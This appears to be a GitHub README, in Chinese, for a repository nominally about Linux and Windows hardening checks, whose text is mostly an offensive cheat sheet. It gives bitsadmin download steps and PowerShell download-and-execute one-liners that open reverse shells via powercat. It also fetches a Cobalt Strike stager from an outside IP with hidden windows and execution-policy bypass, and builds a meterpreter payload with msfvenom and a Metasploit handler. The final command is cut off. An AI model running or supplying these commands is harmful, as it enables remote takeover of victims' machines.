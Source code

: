# CheckLinux
linux的基本属性脚本
———————————————————————————————————————————————————————————————
# Windows加固
![image](https://github.com/zyh2580/CheckLinux/assets/89782304/0c6c67c0-a121-4569-989f-13606417ad6e)
![image](https://github.com/zyh2580/CheckLinux/assets/89782304/cbf73c13-3c23-42c0-9fa0-b91dda9b3d93)
![image](https://github.com/zyh2580/CheckLinux/assets/89782304/4847def9-074f-4cf2-844f-8769896fb958)
![image](https://github.com/zyh2580/CheckLinux/assets/89782304/96f48a4f-d51e-43f9-af10-755c39065532)
# Linux加固
![image](https://github.com/zyh2580/CheckLinux/assets/89782304/c96b97e3-cba3-4389-9814-cc31d7a8bedb)
![image](https://github.com/zyh2580/CheckLinux/assets/89782304/7061ed37-65c0-4d15-b7c7-2535bd319ec3)
![image](https://github.com/zyh2580/CheckLinux/assets/89782304/257114f4-bc75-4eb7-bb40-dd5c59abdde9)
———————————————————————————————————————————————————————————————
# bitsadmin

bitsadmin  可以用来在windows 命令行下下载文件。bitsadmin是windows 后台智能传输服务的一个工具，windows 的自动更新，补丁之类的下载就是用这个工具来实现的。Windows Server2003和XP是没有bitsadmin的，Winc7及其之后的机器才有。

bitsadmin的一些特性：
bitsadmin 可以在网络不稳定的状态下下载文件，出错会自动重试，可靠性应该相当不错。
bitsadmin 可以跟随URL跳转.
bitsadmin 不像curl  wget 这类工具那样能用来下载HTML页面。
bitsadmin /transfer test http://files.cnblogs.com/files/gayhub/bcn.js  c:\users\xie\desktop\shell.php
#"任务名" 可以随意起，保存文件的文件路径必须是已经存在的目录，否则不能下载。
bitsadmin /setpriority test foreground     #设置任务test为最高优先级

# cmd窗口下利用Powershell反弹NC shell 
亲测所有机器都适用
powershell IEX (New-Object System.Net.Webclient).DownloadString('https://raw.githubusercontent.com/zyh2580/CheckLinux/main/powercat.ps1');powercat -c 192.168.10.11 -p 8888 -e cmd
powershell -nop -exec bypass -c "IEX (New-Object System.Net.Webclient)DownloadString('https://raw.githubusercontent.com/zyh2580/CheckLinux/main/powercat.ps1');powercat -c 192.168.10.11  -p 8888 -e cmd.exe"
# cmd窗口下利用Powershell反弹CobaltStrike shell
windows10 经常性不能用。windows 2008R2以下百分百适用。
powershell.exe -nop -w hidden -c "IEX ((new-object net.webclient).downloadstring('http://114.118.80.138:8080/a'))"   #后台运行
powershell.exe  -c "IEX ((new-object net.webclient).downloadstring('http://114.118.80.138:8080/a'))"  
# cmd窗口下反弹MSF shell

msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=114.128.90.138 lport=7788 -f psh-reflection >7788.ps1        #生成木马文件 7788.ps1
python -m SimpleHTTPServer 80  #开启web服务
# MSF监听
use exploit/multi/handler
set payload windows/x64/meterpreter/reverse_tcp
set lhost 114.118.80.138
set lport 7788
exploit -j
# 目标机的操作

powershell -windowstyle hidden -exec bypass -c "IEX (New-Object Net.WebClient).DownloadString('http://114.118.80.138/7788.ps1');xx.ps1"  #后台运行
或者
powershell -exec bypass -c "IEX (New-Object Net.WebClient).DownloadString('http://114.118.80.138/7788.ps1');xx.ps'

